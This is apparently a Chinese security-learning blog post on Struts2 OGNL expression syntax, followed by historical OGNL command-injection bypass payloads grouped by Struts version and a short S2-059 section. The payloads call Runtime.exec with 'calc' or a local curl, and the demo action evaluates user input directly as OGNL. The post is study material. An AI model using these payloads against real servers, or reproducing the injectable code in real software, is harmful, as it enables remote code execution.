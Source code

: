 ```yaml
---
layout:     post
title:      Struts2-ONGL-表达式
subtitle:   开始接触struts2框架、继续学习java的表达式
date:       2020-10-11
author:     BY Diego
header-img: img/wenzhang/post-bg-java-struts-ognl.jpg
catalog: true
tags:
    - Java
    - 命令注入
---
```




------------------------------------------------![0csDU0.png](https://s1.ax1x.com/2020/10/11/0csDU0.png)----------------------------------------------





### Ognl 表达式基本使用



使用方法：

```java
OgnlContext context = new OgnlContext()  //创建一个Ognl上下文环境
context.setRoot() //设置root元素 （根元素
context.put("id",1) //向环境变量中加入变量
Object ognl = Ognl.parseExpression("#id") //建立表达式 (取值
value = Ognl.getValue(ognl,context,context.getRoot()) //执行
```



demo 类

```java
package com.diego.demo;

import com.opensymphony.xwork2.Action;
import com.opensymphony.xwork2.ActionContext;
import ognl.Ognl;
import ognl.OgnlContext;

public class Ognl_test implements Action {

    public String payload;

    public class Users{
        Users(Integer age,String name){
            this.age = age;
            this.name = name;
        }
        public Integer age ;
        public String name ;
    }
    
    public String getPayload(){
        return payload;
    }

    @Override
    public String execute() throws Exception {
        // 创建 Action 容器
        ActionContext actionContext = ActionContext.getContext();
        if(payload != null){
			// 创建一个Ognl上下文环境
            OgnlContext context = new OgnlContext();
            Object value = null;
            try {
                // id = 1 加入环境变量
                context.put("id",1);
                Users users1 = new Users(1,"Diego1");
                Users users2 = new Users(2,"Diego2");
                // users1 users2 加入环境变量
                context.put("users1",users1);
                context.put("users2",users2);
                // 设置users1 为ROOT对象
                context.setRoot(users1);
				// 创建 Ognl 表达式
                Object ognl = Ognl.parseExpression(payload);
                // 解析表达式
                value = Ognl.getValue(ognl,context,context.getRoot());
            } catch (Exception e) {
                e.printStackTrace();
            }
            // 解析结果 放入Action 容器
            actionContext.put("res",value);
            System.out.println(value);
            return SUCCESS;
        }else{
            return ERROR;
        }
    }
}

```



结合上面例子看出Ognl语法为 ：

**访问非根元素 :**

* #[变量]    ----->  `#users2` ,`#id`

* #\[对象][属性]   ----->  `#users2.age`

* #\[对象]\[方法名]()   ----->  `#users2.test()`

**访问根元素：** （以一个对象为根元素 访问成员或方法时可以 去掉`#对象名.`

* \[对象][属性]  ----->  `age`,`name`
* \[对象]\[方法名]()  ----->  `test()`

  **调用方法**：

* `xxx.getName()`

**支持类静态的方法调用和值访问**

 格式：`@[类全名（包括包路径）]@[方法名 |  值名]`

* 调用方法 `@java.lang.Runtime@getRuntime().exec('calc')`

* 调用成员 `@com.diego.demo.Ognl_test@aaa`  //

![0rYB28.png](https://s1.ax1x.com/2020/10/09/0rYB28.png)

**可以给上下文的变量赋值**

* 一般变量 `#id=111111,#id` 
* 成员变量 `#users2.age=99999,#users2.age`

![0rNxDe.png](https://s1.ax1x.com/2020/10/09/0rNxDe.png)

**静态方法调用**

* `@@min(1,2)`



**多语句执行**

* `().() 可以执行多语句`

### Ognl命令注入 历史漏洞

以下都是绕过`SecurityMemberAccess` 或者修改 `memberAccess`

**Struts 2.3.14.1版本前**

```
(#_memberAccess['allowStaticMethodAccess']=true).(@java.lang.Runtime@getRuntime().exec('calc'))
```

**2.3.14.1后 - 2.3.20版本前**

```
(#p=new java.lang.ProcessBuilder('calc')).(#p.start())
```



**2.3.20版本 - 2.3.28版本** (本地2.3.37 也可

```
(#_memberAccess=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).
(@java.lang.Runtime@getRuntime().exec('calc'))
```



**2.3.30(2.5.2)之后**

```
(#container=#context['com.opensymphony.xwork2.ActionContext.container']).
(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).
(#ognlUtil.excludedClasses.clear()).(#ognlUtil.excludedPackageNames.clear()).
(#context.setMemberAccess(@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS)).
(@java.lang.Runtime@getRuntime().exec('calc'))
```



**2.5.16**

```
第一次

(#context=#attr['struts.valueStack'].context).
(#container=#context['com.opensymphony.xwork2.ActionContext.container']).
(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).
(#ognlUtil.setExcludedClasses('')).(#ognlUtil.setExcludedPackageNames(''))

第二次
(#context=#attr['struts.valueStack'].context).
(#context.setMemberAccess(@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS)).
(@java.lang.Runtime@getRuntime().exec('curl 127.0.0.1:9001'))
```





### Struts2 059

影响版本

Struts 2.0.0 - Struts 2.5.20

Apache Struts 2 会对某些标签属性（比如 id）的属性值进行二次表达式解析，并且在 Struts 标签属性内强制进行 OGNL 表达式解析时的情况因此在某些场景下将可能导致远程代码执行。



服务端代码 （及diego可控

```java
public class Ognl_test implements Action {
    
    public String diego ;
    public String getDiego(){
        return diego;
    }
    
    @Override
    public String execute() throws Exception {
        ActionContext actionContext = ActionContext.getContext();
        if(diego != null){
            actionContext.put("diego",diego);
            return SUCCESS;
        }else{
            return ERROR;
        }
    }
}
```



Ognl.jsp

![0cBkAf.png](https://s1.ax1x.com/2020/10/11/0cBkAf.png)





![0cDZa6.png](https://s1.ax1x.com/2020/10/11/0cDZa6.png)



`%{(#aaaa=123456).(#aaaa)}` ,可以执行Ognl 表达式

![0cruT0.png](https://s1.ax1x.com/2020/10/11/0cruT0.png)



绕过方法与`Ognl命令注入` 相同

s2-059 payload 与具体版本有关